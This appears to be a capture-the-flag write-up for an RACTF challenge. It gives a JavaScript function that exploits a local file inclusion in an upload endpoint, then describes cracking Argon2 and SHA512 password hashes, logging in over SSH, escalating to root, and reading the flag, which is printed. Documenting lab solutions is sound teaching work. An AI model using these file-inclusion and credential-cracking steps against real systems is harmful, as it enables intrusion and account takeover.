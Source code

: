 # Writeup

First step is to realise they can lfi by changing the request parameter to `source: internal`, this will LFI as intended, check if file exists, if it does, pass that in a call to ffmpeg and encode that into a video.

You can use this JS TO test easily
```js
async function LFI(inp){
    let fd = new FormData();
    fd.append("file", inp);
    fd.append("source", "internal");
    const ctrl = new AbortController()

    try {
      document.getElementById("card-actions-first").innerHTML = lpbar;
      initElement("mdc-linear-progress", mdc.linearProgress.MDCLinearProgress.attachTo);
      displayMDCSnackbar("Uploading Video, please wait", 10000)
       let req = await fetch('/upload/content',
        {method: "POST", body: fd, signal: ctrl.signal}).then(resp => resp.json()).then(data => displayMDCSnackbar(data.message, 4000));
       setTimeout(function(){location = ''}, 4000);
    } catch(e) {
      setTimeout(function(){location = ''}, 4000);
      displayMDCSnackbar("Upload Failed: " + e, 4000)
    }

}
```

Then invoke by calling `LFI("uploads/note.txt")`

How would they find that path? Well they'd have to LFI the python code first to find a route for `uploads/note.txt`. Using our function earlier, they can just do `LFI("app.py")`

Then, very painfully they extract the two parts of the password, hashed in ARGON2 which is nortoriously memory intensive. However the first bit is `password` and the second bit is `qwertyuiop` so literally any wordlist will find it.

Then they login as SSH on port 42069 (haha yes very funny I know), with the creds `admin` (hinted at in the note) and password `passwordqwertyuiop`.

From here are able to read `/etc/shadow-backup.txt`, crack the SHA512 hash which comes out to be `ubisoft` then switch user to root (can't login as root on SSH).

Once logged in, just `cat /root/root.txt`

# Flag

`ractf{l4ws_0f_phys1cs_c4n_tak3_a_h1ke}`
